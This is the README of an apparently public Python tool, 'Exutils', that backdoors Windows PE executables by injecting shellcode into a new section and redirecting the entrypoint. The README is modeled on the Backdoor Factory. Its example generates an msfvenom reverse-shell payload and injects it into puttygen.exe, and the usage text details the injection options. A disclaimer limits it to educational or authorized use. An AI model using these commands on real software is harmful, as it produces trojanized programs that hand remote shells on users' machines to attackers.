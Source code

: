 # Exutils: A Small Collection of Python Scripts for Binary Analysis and Manipulation

## About

**This project is meant to be used for educational purposes only or for authorized purposes.**

This project is a work in progress. Not all features are integrated but now the following use cases are supported.

- Adding a new section and entering at that new section without restoration
- Adding a new section, jumping to that section, and restoring the original instructions

The goal is to leverage pefile and capstone to create a stripped down version of the Backdoor factory targeting 32 and 64 bit x86 systems that is easy to develop with.

## TODO

- [ ] Use an xor/encoder stub
- [ ] Discover code cave in .text and write to there
- [ ] Cleanup: add mixin inheritance for common functionality in inject module
- [ ] Cleanup: move restoration to class(es)

## Example

```
$ msfvenom -p windows/shell_reverse_tcp -o /path/to/payload/local.py LHOST=x LPORT=y -f python
## edit the local.py file and remove all the "python" portions so that it is just in /x00/x01/x02... format, new lines will be removed automatically
## save new verseion as local.txt
$ ./injectx86.py build -s txt:/path/to/payload/local.txt -f samples/puttygen-x86.exe --force --cave new-section -o /path/to/payloads/folder
```

## Usage

```
usage: exutils.py [-h] {binasm,build,expand,new-section,peinfo,shellasm} ...

Inject shellcode into new section

positional arguments:
  {binasm,build,expand,new-section,peinfo,shellasm}
                        action
    binasm              get asm from shellcode
    build               build injected binary
    expand              expand binary (creates a copy)
    new-section         add a new section (copies and expands source file)
    peinfo              get info about pefile
    shellasm            get asm from shellcode

optional arguments:
  -h, --help            show this help message and exit

```

### build

Inject shellcode into a binary by creating a new section and changing the entrypoint via pefile. Attempts can be made to 'fix' the executable so that it restores the registers.

```
usage: exutils.py build [-h] -s SHELLCODE -f FILE [-o OUTPUT] [-F] [--no-restore] [--nop-restore-data] [-c {auto,cave,new-section}] [-e {jump,new-section}]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file via
                        'bin:/path/to/binary')
  -f FILE, --file FILE  path to source pe file
  -o OUTPUT, --output OUTPUT
                        path to newly created pe file
  -F, --force           force overwrite output
  --no-restore          do not fix the payload with popa and pusha
  --nop-restore-data    fill replaced/removed original instructions with NOPs instead of appending them to shellcode
  -c {auto,cave,new-section}, --cave {auto,cave,new-section}
                        where to write the shellcode. defaults to auto
  -e {jump,new-section}, --enter {jump,new-section}
                        how to handle the entrypoing. defaults to 'jump' where the executable uses 'jmp' to move to new section
```

### Shoulders of Giants:

- https://github.com/rmadair/PE-Injector/blob/master/pe-injector.py
- https://axcheron.github.io/code-injection-with-python/#adding-the-section-header
- https://github.com/v-p-b/peCloakCapstone
- https://github.com/secretsquirrel/the-backdoor-factory
- https://nightcr4wl3r.blogspot.com/2017/11/automating-backdoor-creation-for-pe.html
- https://github.com/n3tsky/Exploits-Tools/tree/master/PE-Backdoor
